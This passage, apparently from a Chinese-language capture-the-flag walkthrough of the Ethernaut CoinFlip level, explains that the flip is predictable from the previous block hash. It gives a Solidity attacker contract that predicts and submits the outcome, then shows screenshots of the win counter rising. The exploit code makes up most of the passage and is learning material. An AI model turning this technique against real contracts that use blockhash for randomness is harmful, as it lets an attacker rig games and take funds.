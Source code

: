```solidity
    }
}
```

根据代码，我们可以看到 blockValue 是由前一个区块而决定的，但是我们无法知道前一个区块，所以我们可以在自己的内部创造一个合约，将结果送给合约即可，编写 solidity 代码如下：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/math/SafeMath.sol";

interface  CoinFlipInterface {
    function flip(bool) external returns(bool);
}

contract CoinFlipAttacker{
    
    using SafeMath for uint256;
    address private addr;
    CoinFlipInterface interface;

    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _addr) public {
        addr = _addr;
        interface = CoinFlipInterface(_addr);
    }

    function getFlip() private returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        return side;
    }
                        
    function attack() public {
        bool side = getFlip();
        interface.flip(side);
    }

}
```

设置相关参数（合约地址等）：

<img src="/Users/bruce/Library/Application Support/typora-user-images/image-20240721143545839.png" alt="image-20240721143545839" style="zoom:50%;" />

执行一次 attack 函数，我们可以看到在合约中 consecutiveWins 有增加：

<img src="/Users/bruce/Library/Application Support/typora-user-images/image-20240721143636354.png" alt="image-20240721143636354" style="zoom:50%;" />

<img src="/Users/bruce/Library/Application Support/typora-user-images/image-20240721143647014.png" alt="image-20240721143647014" style="zoom:50%;" />
